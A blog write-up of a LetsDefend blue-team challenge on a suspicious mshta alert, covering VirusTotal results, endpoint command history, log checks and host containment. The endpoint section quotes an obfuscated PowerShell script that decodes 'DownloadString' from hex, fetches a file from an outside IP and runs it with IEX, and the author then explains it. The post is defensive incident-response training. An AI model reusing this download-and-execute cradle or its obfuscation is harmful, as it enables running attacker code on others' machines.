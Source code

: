 ```yaml
---
layout: post
published: true
title: write up - suspicious mshta behavior
author: admin
comments: true
date: '2022-04-13 18:00'
categories:
  - DFIR
---
```


I've been trying out [letsdefend.io](https://letsdefend.io/) for a couple of week, and here's a write up of one of the challenge. its a platform to hone your blue teaming skill, you play in a SIEM like apps and you act as an analyst, finding IOC and deciding escalation etc. There are not a lot of blue team training site, and this concept is pretty nice. 

Here goes the write up. 
<!--more-->

![mshta behaviour](/images/wup_ld.png)

this is what the case looked like, basically a host execute a hta thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the hash (virustotal) and the IP address (we'll try command history & proccess history we found at the endpoint security tab). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

virustotal result are bad, 23/58 malicious flag. if we are interested we could try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

[virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection)


#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use end point security to find out what was happening in the host 172.16.17.38. From the screenshot we can see that the first command line that trigger the alert, followed by weird command.

The first command is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused to proxy for execution of the PS1.hta file. 
you can see the related explanation here at the [MITRE](https://attack.mitre.org/techniques/T1218/005/)

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

Tried a bit of magic at the second command so it will be more readable. 
$H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". $H2 was a glorified "New-Object Net.WebClient". and $H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8 (http://193.142.58.23/Server.txt). 

#### log management

After seeing what the script do, we best check log management and try to see did the c2 server (193.142.58.23) reply with anything.

![wup_endpoint](/images/wup_logmgmt.png)

apparently the server replied with 404, so no response arrived for the host (172.16.17.38) because the server is dead/ the file was not there.

#### containment and lesson learned

Since it's definetly a malicious script (but stopped due to the C2 server is dead), it's best to contain the host. We can do this by going to endpoint security and click the request containment. 

Lastly, we can use the IP address, and URL and also the md5 hash of the executed file can as IOC when we did the playbook and also close the case.



